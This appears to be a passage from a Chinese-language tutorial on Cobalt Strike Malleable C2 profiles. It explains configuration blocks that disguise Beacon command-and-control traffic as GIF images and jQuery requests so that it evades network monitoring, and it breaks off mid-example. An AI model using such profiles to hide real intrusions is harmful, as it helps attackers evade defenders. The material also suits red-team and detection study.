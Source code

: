 

如下代码的作用是，当Cobalt Strike的Beacon与C2服务器通信时，服务器响应的HTTP消息头中的`Content-Type`被设定为"image/gif"，并且在消息体中插入了一段特定的十六进制编码的数据，这些数据在传输过程中会被解析为一个GIF图像。这样可以在网络流量中掩盖Beacon的通信数据，使其看起来像是正常的图像数据，从而避开了网络监控的检测

```
server {
    header "Content-Type" "image/gif";
    output {
      # 下列两行行分别将不同的十六进制序列插入到输出的开始位置
      # 这种序列通常用于具体的编码，例如这里就是构建一个GIF图像的特定格式
      prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
      prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
      print; #print命令会将输入数据打印为字符串
    }
}
```



### 终止关键字(指定数据存放位置)

在设置完数据编码规则后，我们需要使用终止关键字来标记编码规则的结束，并指定数据的存放位置。

| **声明方式**    | **数据存放位置**                                             |
| --------------- | ------------------------------------------------------------ |
| header "header" | 将数据存储在指定的HTTP头部。                                 |
| parameter "key" | 将数据存储在指定的URI参数中。（"parameter"这个终止关键字在"id"代码块中和其他地方的含义是不同的，在id代码块中是代表beacon的session id） |
| print           | 将数据存储在HTTP body中。                                    |
| uri-append      | 将数据直接附加到URI后面。当使用此终止语句时，建议使用base64url而非base64进行编码，因为普通的base64编码可能会包含"+"号，而在URL中这可能会被转义。 |

- 在`http-get.server.output`，`http-post.server.output`和`http-stager.server.output`这三个代码块中，只能使用`print`作为终止关键字，因为这些区块的数据应原样输出，不能存储在其他位置。
- 在`http-get.client.metadata`中不能使用`print`作为终止关键字，这是由于HTTP GET请求的特性决定的，它并未设计为在请求体（body）中传递参数。

另外，如果在`http-post.client.output`中使用`header`，`parameter`或`uri-append`，Beacon会将数据分块到合理的长度后进行发送，以避免因数据长度过长而导致的问题。



## 常用代码块

### http-get	

如下代码定义了CS的HTTP GET请求的配置，分为两部分，`client`部分描述了Beacon发出的请求，`server`部分描述了C2服务器的响应

在`metadata`块中，`base64url`表示Beacon将元数据进行Base64编码；`prepend "__cfduid="`表示在编码后的元数据前添加字符串`"__cfduid="`；`header "Cookie";`表示将元数据放入"Cookie"头部字段发送

```apl
http-get {

    # 设置Beacon与C2服务器之间通信的URL
    set uri "/jquery-3.3.1.min.js";
    
    # 设置HTTP请求的类型
    set verb "GET";

    client {

        # 设置HTTP请求头的字段
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata {
            # 设置元数据编码为base64url
```